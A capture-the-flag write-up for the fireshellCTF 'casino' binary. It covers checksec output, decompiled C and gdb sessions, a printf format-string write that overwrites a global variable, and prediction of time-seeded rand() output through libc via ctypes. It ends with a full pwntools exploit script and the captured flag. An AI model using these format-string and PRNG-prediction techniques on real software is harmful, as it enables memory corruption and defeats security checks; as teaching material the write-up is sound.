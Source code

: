 ## fireshellCTF: casino
##### *tl;dr: format string write, predict PRNG output*
#### This took me quite a while to figure out since I had no clue on how to work with the pseudorandom number generator (PRNG), but after some reading (and taking a peek at some other writeups) I finally understood how to do it. First things first, we check the security measures of the binary:
```
$ file casino
casino: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=d5555a0a9faa7cb92e3619e841fb4a5b13288f4e, not stripped

$ checksec casino
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
## Code Review
#### Most security protections are on, so we'll have to figure out things along the way. I decompiled the binary through GHIDRA, and this is the resulting code: 
```c
undefined8 main(void)

{
  int random_number;
  time_t seed;
  FILE *flag;
  long in_FS_OFFSET;
  int win_bet;
  uint loop_condition;
  char buffer [16];
  undefined local_38 [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  seed = time((time_t *)0x0);
  printf("What is your name? ");
  read(0,buffer,0x10);
  printf("Welcome ");
  printf(buffer);
  putchar(10);
  srand((uint)seed / 10 + bet);
  win_bet = 0;
  loop_condition = 1;
  while ((int)loop_condition < 100) {
    random_number = rand();
    printf("[%d/100] Guess my number: ",(ulong)loop_condition);
    __isoc99_scanf(&DAT_00400cd5);
    if (random_number != 0) {
      puts("Sorry! It was not my number");
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
    puts("Correct!");
    win_bet = win_bet + bet;
    loop_condition = loop_condition + 1;
  }
  if (100 < win_bet) {
    puts("Cool! Here\'s another prize");
    flag = fopen("flag.txt","r");
    fread(local_38,0x1e,1,flag);
    fclose(flag);
    printf("%s",local_38);
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```
#### Reviewing the code, we spot a vulnerable printf call, which signals that we can perform a format string attack against the binary. Looking further down we see how the seed value is generated. We also see a while loop that goes on for 99 iterations checking if the input we supplied is equal to the number generated by the seeded rand function. If we get it correctly, some variables are incremented. The final if case checks if the win_bet variable is greater than 100, then we can be able to get the flag. 
#### The problem is that win_bet is initialized with a value of zero, then is incremented by 1 (bet's value) for the duration of the loop which runs for 99 times - making win_bet only 99 thus failing the check to the if case. The printf vulnerability will come in handy at this point since it will allow us to write to the bet variable, making it possible to bypass the check. 
## The Plan
#### Our plan will be to first overwrite the bet variable via a format string write, generate the random values from the predictable RNG then add the value we wrote bet into it, loop it for a hundred times, then we can get the flag.
## Format String Overwrite
#### We need to find out at which offset we can overwrite stuff, and since I was lazy, I created a short script to automate this for me:
```python
for i in range(1,20):
	p = process('./casino')
	print(p.recv())
	print('Offset {}'.format(i))
	p.sendline('AAAABBBB %{}$p'.format(i))
	print(p.recv())
```
#### Scanning through the results, we see that our buffer is at the 10th offset. Now we just need to supply the address of the bet variable. We can easily get this from gdb:
```
$ gdb ./casino
  gdb-peda$ disas main
  [...]
  0x0000000000400ae2 <+147>:	mov    eax,DWORD PTR [rip+0x201538]        # 0x602020 <bet>
  [...]
  
  gdb-peda$ x/ 0x602020
  0x602020 <bet>:	0x1
```
#### Since this is a 64-bit binary, we need to put the address after the format string, add 1 to the offset since it will adjust accordingly. Now to verify if we did it correctly:
```python
p = process('./casino')
print(p.recv())
p.sendline('%11$p{}'.format(p64(0x602020)))
print(p.recv())
```
```
$ python exploit.py
[x] Starting local process './casino'
[+] Starting local process './casino': pid 19476
What is your name? 
Welcome 0xa0000000000  `
[1/100] Guess my number: 
[*] Stopped process './casino' (pid 19476)
```
#### We can confirm that we correctly placed our target address into the buffer. Next thing we need to do is to write some value into the bet variable, in our case we'll be assigning it with 9. Modifying our exploit script a little bit we get this:
```python
p = process('./casino')
print(p.recv())
p.sendline('%9x%11$n{}'.format(p64(0x602020)))
print(p.recv())
```
#### We'll need to manually test if it works through gdb. Redirect the output of our format string attack to a file and input it to gdb.
```
gdb-peda$ break *0x0000000000400af0
Breakpoint 1 at 0x400af0

gdb-peda$ r < fmt
[...]
Breakpoint 1, 0x0000000000400b0a in main ()

gdb-peda$ x/ 0x602020
0x602020 <bet>:	0x0000000000000009
```
#### Examining the value of the bet variable, we have successfully overwritten it with 9.
## Not Pseu(do) Random
#### Since we already know that the random function is seeded with `time(0) / 10 + bet` we can easily mimic this to get the values we need. This was the problem that kept me stuck on this challenge for so long, but with the help of this [guide](https://github.com/Naetw/CTF-pwn-tips#predictable-rngrandom-number-generator), I easily did it. To check which libc the binary is using, and to get the path to it, we use `ldd`:
```
$ ldd casino
	linux-vdso.so.1 (0x00007ffcadff6000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f83744e0000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f83748d1000)
```
#### From this point will be smooth sailing, since we just follow the guide and do the RNG algorithm on a simple python script:
```python
from ctypes import *
libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')
seed = libc.time(0) / 10
libc.srand(seed + 9)
libc.rand()
```
#### Combining all our little exploits, we get our final exploit script:
```python
from pwn import *
from ctypes import *

#: Connect to challenge server
binary = ELF('./casino', checksec=False)
libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')
p = binary.process()
print(p.recv())

#: Exploit code
#: PRNG Exploit
seed = libc.time(0) / 10
p.sendline('%9x%11$n{}'.format(p64(0x602020)))
print(p.recv())
libc.srand(seed + 9)

for i in range(99):
	p.sendline(str(libc.rand()))
	print(p.recv())
```
#### Run to get the flag! 
```
$ python exploit.py
[...]
[96/100] Guess my number: 
Correct!
[97/100] Guess my number: 
Correct!
[98/100] Guess my number: 
Correct!
[99/100] Guess my number: 
Correct!
Cool! Here's another prize
F#{buggy_c4s1n0_1s_n0t_f41r!}
```
